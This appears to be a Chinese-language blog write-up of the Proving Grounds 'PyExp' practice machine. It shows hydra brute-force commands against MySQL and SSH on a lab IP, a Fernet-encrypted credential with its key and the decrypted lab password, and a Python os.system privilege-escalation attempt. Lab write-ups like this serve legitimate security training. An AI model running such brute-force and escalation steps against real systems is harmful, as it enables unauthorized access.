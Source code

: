 ```yaml
---
layout: post
title: "[PGPlay] PyExp 靶機 Write-up"
date: 2024-06-14 00:50:02 +0800
categories: [offsec]
tags: [offsec]
---
```

本系列為 Proving Grounds Play Free 靶機

官方難度 : Easy
社群評論難度 : INTERMEDIATE

## Port scan 發現 1337,3306 port

![](../static/img/2024-06-14/0.png)

mysql 版本 5.5.5-10.3.23

已知資訊 發現 Auth Plugin Name : `mysql_native_password` 已知使用密碼

尋找nmap 掃描 mysql的枚舉方法

![](../static/img/2024-06-14/1.png)

可發現有許多使用者名稱 

發現有開啟服務 可進行遠端連線

![](../static/img/2024-06-14/2.png)

開啟 hydra 進行爆破

`hydra -L user.txt -P /usr/share/worlists/seclists/Password mysql://192.168.163.118`

![](../static/img/2024-06-14/3.png)

![](../static/img/2024-06-14/4.png)

fernet table 資料

cred : 

`gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys=`

keyy:

`UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0=` 

利用 `gAAAAAB` 關鍵字丟上google 查詢到 可使用 python fetnet 模塊進行解碼

最後 找線上的fetnet 進行破解

得到的數據為 : 
```bash
lucy:wJ9`"Lemdv9[FEw-
```

![](../static/img/2024-06-14/5.png)

將密碼丟進字典檔 再次嘗試使用 hydra 進行破解

-s = 非預設port 

`hydra -L user2.txt -P /home/kali/Desktop/oscp_free_lab/PyExp/password.txt ssh://192.168.163.118 -s 1337`

依然無結果 最後看到帳號 密碼就已經在上方

```bash
lucy:wJ9`"Lemdv9[FEw-

user = lucy

password = wJ9`"Lemdv9[FEw-
```

![](../static/img/2024-06-14/6.png)

# 提權

使用 sudo -l

![](../static/img/2024-06-14/7.png)

查看權限與內容

![](../static/img/2024-06-14/8.png)

查看 SUID

![](../static/img/2024-06-14/9.png)

後續參考 將使用者直接寫入 /etc/passwod 發現沒有給於lucy寫入的權限

執行 exp.py 發現 他會執行exec

嘗試用他進行更改root密碼

`import os; cmd='sudo /usr/bin/passwd';os.system(cmd)`

顯示不能修改root

![](../static/img/2024-06-14/10.png)

最後發現 掉進兔子洞裡面了

最後 加sudo 尋找 常見的 python 提權 即可 pwd

![](../static/img/2024-06-14/11.png)